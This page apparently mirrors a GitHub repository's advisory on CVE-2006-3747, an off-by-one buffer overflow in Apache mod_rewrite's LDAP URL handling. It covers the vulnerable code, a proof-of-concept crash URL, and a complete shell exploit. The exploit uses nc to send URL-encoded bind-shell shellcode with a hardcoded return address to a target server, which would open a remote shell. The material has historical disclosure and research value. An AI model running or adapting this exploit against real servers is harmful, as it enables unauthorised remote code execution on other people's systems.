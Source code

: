 # CVE-2006-3747

Information about my advisory on CVE-2006-3747 (Apache mod_rewrite LDAP off-by-one buffer overflow).. At the time, it was the first public working exploit :)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/defensahacker](https://github.com/defensahacker) |
| Url      | [https://github.com/defensahacker/CVE-2006-3747](https://github.com/defensahacker/CVE-2006-3747)                                               |
| Stars    | 2                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* apache* buffer-overflow* buffer-overflow-attack* pentesting

</details>

## Readme

Files about my bugtraq publication and first working exploit for CVE-2006-3747 (Apache mod_rewrite LDAP off-by-one buffer overflow).

(http://www.securityfocus.com/archive/1/443870)

- Public release date of POC/Exploit: 2006-08-20
- Author: Jacobo Avariento Gimeno
- CVE id: CVE-2006-3747
- Bugtraq id: 19204
- CERT advisory: VU#395412
- Severity: high
- CVSS v2 Base Score: 7.6 HIGH (AV:N/AC:H/Au:N/C:C/I:C/A:C)

## Introduction

On July 28 2006 Mark Dowd (McAfee Avert Labs) reported a vulnerability
found in mod_rewrite apache module to the bugtraq mailing list.
The vulnerable function is escape_absolute_uri() and the problem only
could be arised when mod_rewrite is dealing with an LDAP URL, a
malformed LDAP URL could trigger an off-by-one overflow in certain
(special) situations and a possible attacker could cause a
denial-of-service or execute arbitrary code with the privileges of
the apache user.
To exploit this vulnerability isn't necessary an LDAP-specific rule,
but must have a rule which the user can control the inital part of the
remapped URL, i.e.:

```
RewriteRule foo/(.*) $1
```

Any version of the Apache HTTP server:
* 1.3 branch: >1.3.28 and <1.3.37
* 2.0 branch: >2.0.46 and <2.0.59
* 2.2 branch: >2.2.0 and <2.2.3
is vulnerable.


## Analysis of the vulnerable code

```
2696 /* escape absolute uri, which may or may not be path oriented.
2697 * So let's handle them differently.
2698 */
2699 static char *escape_absolute_uri(ap_pool *p, char *uri,
unsigned scheme)
2700 {
2701 char *cp;
2702 ...
...
2727 /* special thing for ldap.
2728 * The parts are separated by question marks. From RFC 2255:
2729 * ldapurl = scheme "://" [hostport] ["/"
2730 * [dn ["?" [attributes] ["?" [scope]
2731 * ["?" [filter] ["?" extensions]]]]]]
2732 */
2733 if (!strncasecmp(uri, "ldap", 4)) {
2734 char *token[5];
2735 int c = 0;
2736
2737 token[0] = cp = ap_pstrdup(p, cp);
2738 while (*cp && c < 5) {
2739 if (*cp == '?') {
2740 token[++c] = cp + 1;
2741 *cp = '\0';
2742 }
2743 ++cp;
2744 }
```

In the case that an LDAP URI contains a fifth '?' the line 2740 causes
an off-by-one overflow, it's writing in token[5].
To exploit this problem is necessary a vulnerable apache version and a
specific stack frame layout.

## Proof of concept

To know if your apache vulnerable version could be successful
exploited, write this rule in your httpd.conf or .htaccess file:

```
RewriteRule kung/(.*) $1

And try to access to the following URL:
/kung/ldap://localhost/AAAAAAAAAAAAAAAAAAAAA%3FAAAAAAAAAAAAA%
3FAAAAAAAAAAAAAAA%3FAAAAAAAAAA%3FAAAAAAAAAA%3FBBBBBBBBBBBBBB
```

If your web server doesn't reply you with a '302 Found' page or a
Segmentation Fault appears in your error_log, an apache child has
crashed and your web server is vulnerable and exploitable.

## Exploit

This exploit was successful executed on Apache 1.3.34, debian
sarge package:

```
#!/bin/sh
# Exploit for Apache mod_rewrite off-by-one.
# Vulnerability discovered by Mark Dowd.
# CVE-2006-3747
#
# by jack <jack\x40gulcas\x2Eorg>
# 2006-08-20
#
# Thx to xuso for help me with the shellcode.
#
# I suppose that you've the "RewriteRule kung/(.*) $1" rule if not
# you must recalculate adressess.
#
# Shellcode is based on Taeho Oh bindshell on port 30464 and modified
# for avoiding apache url-escape.. Take a look is quite nice ;)
#
# Shellcode address in heap memory on apache 1.3.34 (debian sarge) is at
# 0x0834ae77 for any other version/system find it.
#
# Gulcas rulez :P

echo -e "mod_rewrite apache off-by-one overflow\nby jack <jack\x40gulcas
\x2eorg>\n\n"

if [ $# -ne 1 ] ; then
echo "Usage: $0 webserver"
exit
fi

host=$1

echo -ne "GET /kung/ldap://localhost/`perl -e 'print "%90"x128'`%89%e6%
31%c0%31 %db%89%f1%b0%02%89%06%b0%01%89%46%04%b0%06%89%46%08%b0%66%b3%
01%cd%80%89%06%b0%02%66%89%46%0c%b0%77%66%89%46%0e%8d%46%0c%89%46%04%
31%c0%89%46%10%b0%10%89%46%08% b0%66%b3%02%cd%80%b0%01%89%46%04%b0%66%
b3%04%cd%80%31%c0%89%46%04%89%46%08%b0%66%b3%05%cd%80%88%c3%b0%3f%31%
c9%cd%80%b0%3f%b1%01%cd%80%b0%3f%b1%02%cd%80%b8%23%62%69%6e%89%06%b8%
23%73%68%23%89%46%04%31%c0%88%46%07%b0%30%2c%01%88%46%04%88%06%89%76%
08%31%c0%89%46%0c%b0%0b%89%f3%8d%4e%08%8d%56%0c%cd%80%31%c0%b0%01%31%db%

cd %80%3FC%3FC%3FCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC%
77%ae%34%08CCCCCCCCCCCCCCCCCCCCCCCCCCC%3FC%3F HTTP/1.1\r\nHost:
$host\r\n\r\n" | nc $host 80
```

~~ Jacobo Avariento Gimeno



## Get the content

```
git clone https://github.com/defensahacker/CVE-2006-3747
cd CVE-2006-3747
```

{% embed url="https://github.com/defensahacker/CVE-2006-3747" %}

<figure><img src="https://avatars.githubusercontent.com/u/23421429?v=4" alt=""><figcaption><p>defensahacker</p></figcaption></figure>
